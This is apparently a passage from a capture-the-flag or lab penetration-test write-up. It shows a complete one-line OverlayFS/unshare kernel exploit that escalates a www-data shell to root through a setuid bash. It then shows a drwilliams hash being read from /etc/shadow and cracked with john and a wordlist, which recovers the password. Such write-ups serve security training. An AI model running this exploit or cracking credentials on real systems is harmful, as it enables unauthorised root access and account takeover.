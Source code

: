 The tester pursued the kernel exploit.
```shell
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'

root@webserver:/var/tmp# whoami
root
```

The tester checked the home directories for the target flag and did not find it.

```shell
root@webserver:/root# cd /home
root@webserver:/home# ls
drwilliams
root@webserver:/home# ls drwilliams
go
```

## Discovery

Now that the tester has root in the Ubuntu install, a search for credentials for user `drwilliams` can be pursued further.

The password hashes for Linux users are stored in `/etc/shadow`. The tester found the following entry for `drwilliams`:
```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

## Vulnerabilities

The tester attempted to crack the passwords using `john`. If possible, this is a weak password vulnerability.

```shell
$ cat hashes2
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/

$ john --wordlist=/home/kali/Public/rockyou.txt hashes2
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)     
1g 0:00:00:33 DONE (2024-06-11 12:49) 0.02990g/s 6407p/s 6407c/s 6407C/s rufus11..pucci
```
- `drwilliams:qwe123!@#`
